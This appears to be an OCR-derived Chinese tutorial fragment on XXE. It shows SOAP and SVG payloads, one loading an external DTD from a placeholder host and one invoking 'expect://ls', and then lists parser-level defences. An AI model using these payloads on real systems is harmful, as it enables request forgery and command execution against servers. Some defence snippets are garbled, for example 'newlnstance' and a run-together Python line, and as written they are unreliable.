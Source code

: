 ##### XXE：SOAP 示例中的 XXE

```xml-dtd
<soap:Body>
  <foo>
    <![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]>
  </foo>
</soap:Body>
```

##### XXE：SVG 中的 XXE

```xml-dtd
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls"></image>
</svg>
```

## xxe防御

1.过滤用户提交的xml数据

**过滤关键词:<!DOCTYPE>和<!ENTITY>,或者SYSTEM和PUBLIC**

2.使用开发语言提供的禁用外部实体的方法

**PHP:    libxml_disable_entity_loader(true)**

**JAVA:    DocumentBuilderFactory dbf = DocumentBuilderFactory.newlnstance();dbf.setExpandEntityReferences(false);**

**Python:    from lxml import etreexmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))**

3.升级LIbxml

**libxml2.9以上默认已经可以防御xml实体攻击**
